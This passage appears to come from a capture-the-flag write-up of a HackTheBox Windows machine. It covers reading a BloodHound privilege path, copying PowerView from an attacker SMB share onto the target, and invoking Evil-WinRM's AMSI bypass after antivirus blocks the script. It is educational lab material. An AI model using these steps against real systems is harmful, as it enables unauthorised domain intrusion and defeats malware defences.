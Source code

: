 
It's a bit of a mess, but in looking at it, two of the accounts I've
owned are on there. tushikikatomo is there just because they can
PSRemote. But sbauer has GenericWrite on jorden, who is a member of a
high priority group, Server Operators. That seems like a valid path.

### Bypass AMSI

Taking advantage of the relationships outlined by BloodHound is most
easily done with `PowerView.ps1` from
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit). I copy it
into my SMB share and onto Multimaster, but when I try to load it, it is
rejected by the AV:



    *Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\PowerView.ps1 .                  
    *Evil-WinRM* PS C:\programdata> . .\PowerView.ps1                    
    At C:\programdata\PowerView.ps1:1 char:1                                                 
    + #requires -version 2                                                                   
    + ~~~~~~~~~~~~~~~~~~~~                                                                   
    This script contains malicious content and has been blocked by your antivirus software.  
    At C:\programdata\PowerView.ps1:1 char:1                                                 
    + #requires -version 2                                                                   
    + ~~~~~~~~~~~~~~~~~~~~                                                                   
        + CategoryInfo          : ParserError: (:) [], ParseException                        
        + FullyQualifiedErrorId : ScriptContainedMaliciousContent 



[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) has an AMSI
bypass built in. It's a bit weird in that you have to run `menu` first,
and then the command, or it errors out:



    *Evil-WinRM* PS C:\programdata> Bypass-4MSI                                              
    The term 'Bypass-4MSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify th
    at the path is correct and try again.
    At line:1 char:1
    + Bypass-4MSI
    + ~~~~~~~~~~~
        + CategoryInfo          : ObjectNotFound: (Bypass-4MSI:String) [], CommandNotFoundException
        + FullyQualifiedErrorId : CommandNotFoundException 
        
    *Evil-WinRM* PS C:\programdata> menu

       ,.   (   .      )               "            ,.   (   .      )       .   
      ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
    .; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
    _".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
    \_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
     |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
     |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
    /_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
            \/                               \/          \/       \/         \/ 
                  By: CyberVaca, OscarAkaElvis, Laox @Hackplayers  
      